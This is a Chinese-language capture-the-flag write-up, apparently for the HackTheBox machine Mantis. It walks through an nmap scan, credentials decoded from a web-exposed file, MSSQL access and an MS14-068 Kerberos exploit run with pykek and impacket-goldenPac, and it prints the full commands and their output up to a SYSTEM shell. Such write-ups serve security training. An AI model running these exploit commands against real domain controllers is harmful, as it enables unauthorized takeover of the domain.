




## 信息收集

nmap 扫描
```
└─$ sudo nmap -Pn -sC -sV -p- --min-rate 10000 10.10.10.52
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 07:56 PDT
Warning: 10.10.10.52 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.52
Host is up (0.31s latency).
Not shown: 65258 closed tcp ports (reset), 251 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-06-23 14:57:19Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-06-23T14:56:01
|_Not valid after:  2052-06-23T14:56:01
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|_  Product_Version: 6.1.7601
|_ssl-date: 2022-06-23T14:58:37+00:00; 0s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft IIS httpd 7.5
|_http-title: Tossed Salad - Blog
|_http-server-header: Microsoft-IIS/7.5
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp  open  mc-nmf       .NET Message Framing
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49168/tcp open  msrpc        Microsoft Windows RPC
49180/tcp open  msrpc        Microsoft Windows RPC
49185/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-06-23T14:56:01
|_Not valid after:  2052-06-23T14:56:01
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|_  Product_Version: 6.1.7601
|_ssl-date: 2022-06-23T14:58:37+00:00; 0s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.10.10.52:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 34m16s, deviation: 1h30m43s, median: 0s
| smb2-time: 
|   date: 2022-06-23T14:58:24
|_  start_date: 2022-06-23T14:54:32
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2022-06-23T10:58:20-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.62 seconds
```

从端口扫描结果可以得到，开放了`1337`和`8080`的`web`服务，`1433`的`MSSQL`服务，我们从这两个服务开始测试。

首先针对`web`服务进行路径扫描，在`1337`端口的服务中，发现了一个目录



在该目录中存在以下两个文件



`web.config`无法访问，第一个文件可以访问，内容如下：

```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.

Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```
从描述中得知，`admin`的密码为一串编码后的二进制数据，`sa`的密码是文件的名字。那么先解码这串二进制数据，大概率是4字节先转换成`hex`，然后转换成`ascii`。

```python
>>> for x in range(0,120,4):
...     i = int(s[x:x+4],2)
...     h = hex(i).replace('0x','')
...     ss += h
...
>>> print(ss)
40646d216e5f504073735730726421
```
得到密码`@dm!n_P@ssW0rd!`

文件名后面那串是`base64`，然后`hex`转`ascii`，得到密码`m$$ql_S@_P@ssW0rd!`




当我们使用`sa`作为用户名登陆`mssql`的时候，提示密码错误。把用户名改成`admin`后即可登录成功。`8080`端口的`web`服务也可以成功登录。

在数据库中，发现了明文保存的密码 `J@m3s_P@ssW0rd!`



## 提权

使用这个密码看能不能获得域的一个初始授权，枚举`smb`共享

```
└─$ smbmap -u james -p 'J@m3s_P@ssW0rd!' -H 10.10.10.52
[+] IP: 10.10.10.52:445 Name: 10.10.10.52                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

但是这个上面这些目录中没有什么有用的信息，接着导出`LDAP`，从`LDAP`信息中得到就`james`一个普通用户。

因为这是一个`2008`的系统，所以我们可以尝试一些比较旧的漏洞，比如`ms14-068`。

要成功利用这个漏洞，必须要获得一个普通的域账户和他的`sid`,`SID`可以从域信息中得到。最后就是漏洞的利用了，这里要注意修改下`hosts`

```
┌──(kali㉿kali)-[~/Tools/pykek]
└─$ python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d 10.10.10.52
Password: 
  [+] Building AS-REQ for 10.10.10.52... Done!
  [+] Sending AS-REQ to 10.10.10.52... Done!
  [+] Receiving AS-REP from 10.10.10.52... Done!
  [+] Parsing AS-REP from 10.10.10.52... Done!
  [+] Building TGS-REQ for 10.10.10.52... Done!
  [+] Sending TGS-REQ to 10.10.10.52... Done!
  [+] Receiving TGS-REP from 10.10.10.52... Done!
  [+] Parsing TGS-REP from 10.10.10.52... Done!
  [+] Creating ccache file 'TGT_james@htb.local.ccache'... Done!

┌──(kali㉿kali)-[~/Tools/pykek]
└─$ mv TGT_james@htb.local.ccache /tmp/krb5cc_0

┌──(kali㉿kali)-[~/Tools/pykek]
└─$ impacket-goldenPac htb.local/james:"J@m3s_P@ssW0rd\!"@mantis.htb.local -dc-ip 10.10.10.52
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file nJJbHdQD.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service wqqM on mantis.htb.local.....
[*] Starting service wqqM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


